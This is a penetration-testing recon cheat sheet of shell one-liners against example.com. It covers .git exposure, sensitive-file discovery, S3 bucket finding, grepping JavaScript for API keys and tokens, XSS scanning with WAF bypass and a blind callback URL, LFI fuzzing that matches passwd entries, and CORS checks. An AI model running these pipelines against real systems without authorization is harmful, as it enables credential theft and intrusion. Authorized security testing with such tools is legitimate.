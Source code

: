 #(Git Repository Detection){ Detects Git repositories on the web server. }
----
	cat example.coms.txt | grep "SUCCESS" | gf urls | httpx-toolkit -sc -server -cl -path "/.git/" -mc 200 -location -ms "Index of" -probe
	
#(Information Disclosure Scanner){ Checks for information disclosure vulnerabilities using a scanner. }
-----
	echo https://example.com | gau | grep -E "\.(xls|xml|xlsx|json|pdf|sql|doc|docx|pptx|txt|zip|tar\.gz|tgz|bak|7z|rar|log|cache|secret|db|backup|yml|gz|config|csv|yaml|md|md5|tar|xz|7zip|p12|pem|key|crt|csr|sh|pl|py|java|class|jar|war|ear|sqlitedb|sqlite3|dbf|db3|accdb|mdb|sqlcipher|gitignore|env|ini|conf|properties|plist|cfg)$"
	
#(AWS S3 Bucket Finder){ Searches for AWS S3 buckets associated with the target. }
----
	s3scanner scan -d example.com

#(API Key Finder){ Searches for exposed API keys and tokens in JavaScript files. }
-----
	cat allurls.txt | grep -E "\.js$" | httpx-toolkit -mc 200 -content-type | grep -E "application/javascript|text/javascript" | cut -d' ' -f1 | xargs -I% curl -s % | grep -E "(API_KEY|api_key|apikey|secret|token|password)"

	
---- XSS Testing -----
	
#(XSS Hunting Pipeline){ Collects XSS vulnerabilities using various tools and saves them to a file. }
------
	echo https://example.com/ | gau | gf xss | uro | Gxss | kxss | tee xss_output.txt

#(XSS with Dalfox){ Uses Dalfox to scan for XSS vulnerabilities. }
-----
	cat xss_params.txt | dalfox pipe --blind https://your-collaborator-url --waf-bypass --silence

#(Stored XSS Finder){ Finds potential stored XSS vulnerabilities by scanning forms. }
------
	cat urls.txt | grep -E "(login|signup|register|forgot|password|reset)" | httpx -silent | nuclei -t nuclei-templates/vulnerabilities/xss/ -severity critical,high

#(DOM XSS Detection){ Detects potential DOM-based XSS vulnerabilities. )
-----
	cat js_files.txt | Gxss -c 100 | sort -u | dalfox pipe -o dom_xss_results.txt

----LFI Testing ---
	
#(LFI Methodology){ Tests for Local File Inclusion (LFI) vulnerabilities using various methods. }
------
	echo "https://example.com/" | gau | gf lfi | uro | sed 's/=.*/=/' | qsreplace "FUZZ" | sort -u | xargs -I{} ffuf -u {} -w payloads/lfi.txt -c -mr "root:(x|\*|\$[^\:]*):0:0:" -v

----CORS Testing----

#(Basic CORS Check){ Checks the Cross-Origin Resource Sharing (CORS) policy of a website. }	
-------
	curl -H "Origin: http://example.com" -I https://example.com/wp-json/
